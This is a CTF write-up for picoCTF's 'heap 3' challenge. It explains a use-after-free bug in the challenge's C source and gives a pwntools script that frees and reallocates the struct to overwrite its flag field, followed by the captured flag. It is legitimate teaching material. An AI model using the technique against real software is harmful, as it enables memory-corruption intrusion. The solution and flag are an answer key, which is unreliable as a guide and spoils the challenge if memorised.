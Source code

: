 # heap 3

This program mishandles memory. Can you exploit it to get the flag? Download the binary [here](https://artifacts.picoctf.net/c_tethys/17/chall). Download the source [here](https://artifacts.picoctf.net/c_tethys/17/chall.c).

Looking at the sourcecode, we define a structure `object` containing four items:

```c
// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;
```

The `check_win()` function checks if the `flag` member of struct `x` is equal to value `pico` before printing the flag:

```c
void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}
```

We also have an option 5 to 'free `x`'. If we select this and then use option 2 to 'allocate object', we can allocate an object of same size and the memory is reused.

This is a **use-after-free** vulnerability, i.e., if we free variable `x` and then do a `malloc` of the same size, the same memory is used.

Sending 30 bytes and then the check value `pico` will return the flag:

```python
from pwn import *

p = remote('tethys.picoctf.net', 51822)

p.sendline(b'5')  # Select option 5 'free x'

p.sendline(b'2')  # Select option 2 'allocate object'

p.sendline(b'35')  # Choose same size as object struct (35 bytes) to reuse the same freed memory

p.sendline(b'A'*30 + b'pico')  # Set x->a, x->b, and x->c to 'AAAAAAAAAA' and x->flag to 'pico'

p.sendline(b'4')  # Select option 4 'check win'

p.interactive()
```

```
picoCTF{now_thats_free_real_estate_c741213b}
```